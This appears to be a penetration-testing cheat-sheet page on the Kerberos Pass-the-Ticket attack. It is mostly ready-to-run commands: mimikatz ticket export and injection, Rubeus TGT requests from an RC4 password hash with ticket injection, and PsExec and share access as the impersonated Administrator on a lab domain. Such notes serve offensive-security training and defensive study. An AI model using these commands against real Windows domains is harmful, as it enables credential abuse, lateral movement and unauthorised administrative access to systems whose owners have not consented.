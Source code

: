 # Pass The Ticket

## Pass The Ticket

In a pass the ticket attack access is gained to a resource of a system \(for example the administrative shares\) using a kerberos ticket that was generated or obtained from a compromised machine \(TGT or TGS\)

{% hint style="info" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```text
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](../../../.gitbook/assets/image%20%28198%29.png)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```text
kerberos::ptt ticket.kirbi
misc::cmd
```

![](../../../.gitbook/assets/image%20%28195%29.png)

## Rubeus

[rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) is a C\# toolset for raw Kerberos interaction and abuses. 

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```text
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```text
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```text
dir \\overloadDC\\secret_shares
```

or get shell access:

```text
PsExec.exe \\192.168.1.105 cmd.exe
```







